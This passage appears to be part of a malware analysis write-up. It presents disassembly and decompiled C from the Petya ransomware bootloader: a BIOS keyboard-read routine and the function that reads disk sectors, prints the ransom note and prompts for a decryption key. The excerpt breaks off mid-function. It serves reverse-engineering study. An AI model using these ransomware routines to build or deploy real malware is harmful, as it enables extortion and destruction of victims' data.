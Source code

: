 ```c
       0000:8ace e8  21  00       CALL       CheckBuffer_0000_8af2                            undefined CheckBuffer_0000_8af2(
       0000:8ad1 0a  c0           OR         AL ,AL
       0000:8ad3 74  f9           JZ         LAB_0000_8ace


       0000:8ad5 b4  00           MOV        AH ,0x0
                             Returns AH = scan code, AL = character
                             Keyboard - Read char from buffer, wait if empty
       0000:8ad7 cd  16           INT        0x16



       0000:8ad9 88  46  fe       MOV        byte ptr [BP  + local_4 ],AL
       0000:8adc 88  66  fc       MOV        byte ptr [BP  + local_6 ],AH
       0000:8adf 83  7e  04       CMP        word ptr [BP  + param_1 ],0x0
                 00
       0000:8ae3 74  08           JZ         LAB_0000_8aed
       0000:8ae5 8b  5e  04       MOV        BX ,word ptr [BP  + param_1 ]
       0000:8ae8 8a  46  fc       MOV        AL ,byte ptr [BP  + local_6 ]
       0000:8aeb 88  07           MOV        byte ptr [BX ],AL
                             LAB_0000_8aed                                   XREF[1]:     0000:8ae3 (j)   
       0000:8aed 8a  46  fe       MOV        AL ,byte ptr [BP  + local_4 ]
       0000:8af0 c9              LEAVE
       0000:8af1 c3              RET

```
## Do Key Check and Decrypt

This function validates the input key by (for example) comparing it against an internal lookup table and possibly using it to decrypt part of the disk.

```c
void __cdecl16near RansomNote_and_enter_key_0000_858e(undefined2 param_1,undefined param_2)

{
  byte bVar1;
  uint3 uVar2;
  char result;
  undefined2 uVar3;
  undefined2 unaff_BP;
  undefined2 unaff_SS;
  undefined local_24e [41];
  undefined local_225 [128];
  undefined local_1a5 [343];
  undefined local_4e [75];
  char local_3;
  
  _local_3 = CONCAT21(unaff_BP,local_3);
  FUN_0000_8838();
  biosExtDiskAccess_0000_8db2(CONCAT11((char)((uint)local_24e >> 8),param_2),local_24e,0x36,0,1, 0);
  Print_String_Gray_FUN_0000_8736((char *)s_You_became_victim_of_the_PETYA_R_0000_994a);
  PrintLightGrayString_0000_87b8((undefined *)&DAT_0000_ffdc,0x50);
  Print_String_Gray_FUN_0000_8736((char *)s_The_harddisks_of_your_computer_h_0000_9978);
  Print_String_Gray_FUN_0000_8736(local_225);
  Print_String_Gray_FUN_0000_8736((char *)s_3._Enter_your_personal_decryptio_0000_9b76);
  FUN_0000_8a1c(local_1a5);
  Print_String_Gray_FUN_0000_8736((undefined *)&DAT_0000_9bae);
  FUN_0000_8ac2();
  Print_String_Gray_FUN_0000_8736((char *)s_If_you_already_purchased_your_ke_0000_9bb4);
  while( true ) {
```